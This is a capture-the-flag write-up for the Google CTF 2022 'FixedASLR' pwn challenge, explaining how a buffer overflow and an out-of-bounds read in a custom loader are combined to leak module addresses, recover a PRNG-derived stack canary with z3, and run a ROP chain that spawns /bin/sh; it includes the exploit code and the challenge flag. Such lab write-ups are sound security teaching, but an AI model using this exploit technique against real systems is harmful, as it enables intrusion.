# Google CTF 2022 - FixedASLR

### Reference source

https://chovid99.github.io/posts/google-ctf-2022/

https://github.com/nobodyisnobody/write-ups/tree/main/Google.CTF.2022/pwn/FixedASLR

---

Original challenge link: https://capturetheflag.withgoogle.com/challenges/pwn-fixedaslr

You can also download challenge files in my repo: [fixedaslr.zip](fixedaslr.zip)

Download and extract the zip, then we can get started!

# 1. Find bug

First, let's check the basic information of all files:

```bash
$ file *
loader:     ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=71086f1a8e8132c20313b70de229555e4f551144, not stripped
basic.o:    ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), not stripped
debug.o:    ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), not stripped
game.o:     ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), not stripped
guard.o:    ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), not stripped
main.o:     ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), not stripped
res.o:      ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), not stripped
syscalls.o: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), not stripped

$ checksec loader
[*] '/home/nguyenhuutri/CTF/GoogleCTF2022/FixedASLR/loader'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

So this is a 64-bit file called `loader` and 7 object files `basic.o`, `debug.o`, `game.o`, `guard.o`, `main.o`, `res.o` and `syscalls.o`. The file `loader` just have `NX enabled` and others are off.

First, let's decompile the `loader`.



It first read 8 random bytes from `/dev/urandom` to `rand_state` so we cannot imitate this value. It then init stack guard (canary) with the seed above by calling `rand(64)`:



In `rand()`, it get per bit to compute a 64-bit data. Jump into function `rand_get_bit()` and we can see:



This is a 64-bit Linear-feedback shift register (LFSR). With the first seed it got from `/dev/urandom`, it procedures the canary which is equal to `rand_state` now. It then takes that canary and procedures address for object files in `load_o_phase_1`.

In function `load_o_phase_1`, there is a function called `aslr_get_addr` which will execute `rand(12)` to get 12-bit data and create a mapped address with that value:



That's all important things for the file loader. Let's analyze all object files.

For an easy reversing, we can link all object files into 1 file with command `gcc *.o -o chall` and open it with ida64. In `main()`, nothing intersting. Let's jump into `menu()`

In `menu()`, we can choose 4 option. The first one is to play game. It just a simple sum of 2 number without any bug here. After we failed the game, it will jump into function `check_scoreboard()` with argument is `score`:


It then will execute `shift_scoreboard()`, which is not interesting because we cannot input anything here. Let's check the other one `get_player_name()`.

In this function, it will ask for length of name but doesn't check that length:



Hence, we have a **Buffer Overflow** here. But due to custom canary, we cannot do anything with this bug unless we can leak the canary.

With the second option, `see_full_scoreboard()`, it just simply takes datas from the global variable and print it out and we cannot change that too.

With the third option, we can see the score of players with our chosen index:



Look more carefully, we can see that the program doesn't check if index is valid --> **Out Of Bound**. Hence, we can leak data which might be helpful for us.

# 2. Idea

Look at those 2 bug, we're sure that we will take advantage of bug **Buffer Overflow** to control the rip. But there is canary, how can we do that?

After trying to leak canary with the bug **Out Of Bound** but not successfull, I then read writeup and know that I should leak address of each object because those addresses are the result of `rand(12)`. And if we can get all the result from `rand(12)`, we might recover the seed, which is the canary value.

And if we can leak the canary successfully, we will need the address of `debug.o` because that file contains lots of useful gadget.

Summary:
- Stage 1: Leak ASLR --> Canary
- Stage 2: Get address of debug.o
- Stage 3: ROPchain

# 3. Exploit

Before we go to the exploitation, I wrote these functions to provided a handy way to exploit:

<details>
<summary>Code snipet</summary>
<p>

```python
def rand_extract_bit(bit):
	global rand_state
	return (rand_state >> bit) & 1

def rand_get_bit():
	global rand_state
	bit0 = rand_extract_bit(63)
	bit1 = rand_extract_bit(61) ^ bit0
	bit2 = rand_extract_bit(60) ^ bit1
	bit4 = rand_extract_bit(58) ^ bit2 ^ 1
	rand_state = ((2 * rand_state) | bit4) & 0xffffffffffffffff
	return bit4

def rand(bit):
	num = 0
	for i in range(bit):
		b = rand_get_bit()
		num = (2 * num) | b
	return num

def playgame(roundnum):
	p.sendlineafter(b'choice?\n', b'1')
	for i in range(roundnum):
		datas = p.recvuntil(b' ?\n', drop=True).split(b' ')
		p.sendline(str(int(datas[-1]) + int(datas[-3])).encode())
	datas = p.recvuntil(b' ?\n', drop=True).split(b' ')
	p.sendline(str(int(datas[-1]) + int(datas[-3]) + 1).encode())

def seescore(idx):
	p.sendlineafter(b'choice?\n', b'3')
	p.sendlineafter(b'(0-9)?\n', str(u64(struct.pack("<q", idx))).encode())
	p.recvuntil(b'score: ')
	return int(p.recvline()[:-1])
```

</p>
</details>

Because we will need to recover the seed (canary), function `rand()` will be needed.

### Stage 1: Leak ASLR --> Canary

First, we want to leak all the aslr so let's debug with gdb first to get the correspond address and the order of each address. Debug file loader with gdb-gef and we can get the data from `/dev/urandom`:


And with python function `rand()` above, we can calculate 7 values from `rand(12)`:

```python
>>> def rand_extract_bit(bit):
...     global rand_state
...     return (rand_state >> bit) & 1
... 
>>> def rand_get_bit():
...     global rand_state
...     bit0 = rand_extract_bit(63)
...     bit1 = rand_extract_bit(61) ^ bit0
...     bit2 = rand_extract_bit(60) ^ bit1
...     bit4 = rand_extract_bit(58) ^ bit2 ^ 1
...     rand_state = ((2 * rand_state) | bit4) & 0xffffffffffffffff
...     return bit4
... 
>>> def rand(bit):
...     num = 0
...     for i in range(bit):
...             b = rand_get_bit()
...             num = (2 * num) | b
...     return num
...
>>> rand_state = 0x376f5a42c42dc2c3
>>> hex(rand(64))
'0x43bc56f88fb37843'        # This will be canary and seed for rand(12)
>>> hex(rand(12))
'0xd8d'                     # main.o
>>> hex(rand(12))
'0xa9a'                     # syscalls.o
>>> hex(rand(12))
'0x30c'                     # guard.o
>>> hex(rand(12))
'0x575'                     # basic.o
>>> hex(rand(12))
'0xacd'                     # game.o
>>> hex(rand(12))
'0x699'                     # res.o
>>> hex(rand(12))
'0xc89'                     # debug.o
```

Type `c` and `Ctrl + C` to pause gdb, then type `vmmap` to get all the address we have:



We can see that all the address are based on the result of `rand(12)` above. The global variable `game_scoreboard` is located at `0x0000d8d0002000` but in reality, we don't know this address.

Looking all data in this address range, we can see at `0x0000d8d0003000` has something useful:



And the address `0xd8d` is address of `main.o` so the python script to get that address will be as following:

```python
main_o = seescore(512) & 0xfffffffffffff000
```

Continue looking around address of main and we can see at address `0x0000d8d0000000` contains another address:



And the script for leaking those address can be:

```python
guard_o = seescore(-1017) & 0xfffffffffffff000
game_o = seescore(-1019) & 0xfffffffffffff000
```

And no more address can be get from within `main.o` address. Now, we will use command `search-pattern` to search for the other address to see if there are some address containing the address we are looking for:



And we can see the address `0xacd000000b` may contain the address begining with `0x5750`:



The address begining with `0x5750` is address of `basic.o` so we have the following script:

```python
basic_o = seescore( int(((game_o - 0x1000) - main_o)/8) + 1 ) & 0xfffffffffffff000
```

Let's search for the next address begining with `0x6990`:



The address `0xacd0002000` might contain address begining with `0x6990`:



So the script for this is:

```python
res_o = seescore( int(((game_o + 0x1000) - main_o)/8) ) & 0xfffffffffffff000
```

Next, we will find the address begining with `0xa9a0`:



And that address is the address of `guard.o` which containing address of `syscalls.o`:



And the script is:

```python
syscalls_o = seescore( int(((guard_o - 0x1000) - main_o)/8) + 1 ) & 0xfffffffffffff000
```

With the seventh address, we cannot find any place containing that so maybe just 6 is enough.

Now with the known result, just put it into and array first with order:

```python
known_states = [0]*6
known_states[0] = main_o >> 28
known_states[1] = syscalls_o >> 28
known_states[2] = guard_o >> 28
known_states[3] = basic_o >> 28
known_states[4] = game_o >> 28
known_states[5] = res_o >> 28
```

And we will use z3 as the reference source above does to recover the canary for us:

```python
s = Solver()
rand_state = BitVec('x', 64)

for known_state in known_states:
	s.add(rand(0xc) == known_state)
if s.check() == sat:
	model = s.model()
	canary = model[BitVec('x', 64)].as_long()
log.info("Canary: " + hex(canary))
```

After that, let's try to run the script and attach with gdb to check if our canary is correct or not. This is the canary from gdb:



And this is the recovered canary:


Those canary are equal! Let's move on!

### Stage 2: Get address of debug.o

To get the address of `debug.o`, we just simply set the `rand_state` to the value of canary and then `rand(12)` to get the base address of `debug.o`

```python
rand_state = canary
for i in range(6):
	rand(0xc)
debug_o = rand(0xc) << 28
log.info("debug_o: " + hex(debug_o))
```

### Stage 3: ROPchain

Now, with the canary recovered, we can craft our ROPchain to create the shell for us. So let's get all the gadget we can use with tools `objdump`:

```bash
$ objdump -d debug.o
0000000000000000 <_debug_set_reg_rdi>:
   0:	57                   	push   %rdi
   1:	5f                   	pop    %rdi
   2:	c3                   	ret    
0000000000000003 <_debug_set_reg_rsi>:
   3:	57                   	push   %rdi
   4:	5e                   	pop    %rsi
   5:	c3                   	ret    
0000000000000006 <_debug_set_reg_rax>:
   6:	57                   	push   %rdi
   7:	58                   	pop    %rax
   8:	c3                   	ret    
...
000000000000000f <_debug_set_reg_rdx>:
   f:	57                   	push   %rdi
  10:	5a                   	pop    %rdx
  11:	c3                   	ret    
...
```

And those gadget will be available at base address add `0x1000`. Also we can see that after the program get player name, stop at `ret` of `get_player_name()`, we can see rdi is pointing to the begining of our input. The script to check this will be:

```python
playgame(20)
p.sendafter(b'name:\n', cyclic(0x100))
```

And attach with gdb to get that:



So we just simply put the string `/bin/sh` at the begining of our payload and pad to the canary, then input shellcode and we can get the shell:

```python
pop_rsi = debug_o + 0x1000 + 0x4
pop_rax = debug_o + 0x1000 + 0x7
pop_rdx = debug_o + 0x1000 + 0x10
syscall = syscalls_o + 2
p.sendlineafter(b'(0-31)?\n', str(0x1000).encode())
payload = flat(
	b'/bin/sh\x00',
	b'A'*0x20, canary,
	b'B'*8,             # Fake rbp
	pop_rax, 0x3b,
	pop_rsi, 0,
	pop_rdx, 0,
	syscall,
	)
p.sendafter(b'name:\n', payload)
```

Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `CTF{GuessYouCanSayTheCookieGotRandomlyBroken}`